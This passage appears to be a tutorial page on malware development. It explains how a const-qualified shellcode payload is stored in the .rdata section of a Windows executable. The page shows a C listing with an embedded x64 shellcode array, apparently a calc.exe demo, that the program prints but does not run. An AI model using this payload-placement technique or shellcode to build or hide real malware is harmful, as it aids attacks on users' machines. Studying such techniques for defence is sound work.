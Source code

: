 ## .rdata Section

---

Variables that are specified using the **const** qualifier are written as constants. These types of variables are considered “read-only” data. 

The letter “r” in .**rdata** indicates this, and any attempt to change these variables will cause access violations. Furthermore, depending on the compiler and its settings, the **.data** and **.rdata** sections may be merged, or even merged into the **.text** section.

The code snippet below show an example of having a payload stored in **.rdata** section. The code will essentially be the same as the previous code snippet except the variable is now proceded by the const quilifier.

```c
#include <Windows.h>
#include <stdio.h>

**const** unsigned char payload[] = {
	"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
};

int main()
{

	printf("[i] Payload Raw data: 0x%p \n", payload);
	printf("[*] Press <Enter> To Quit..");
	getchar();

	return 0;
}
```
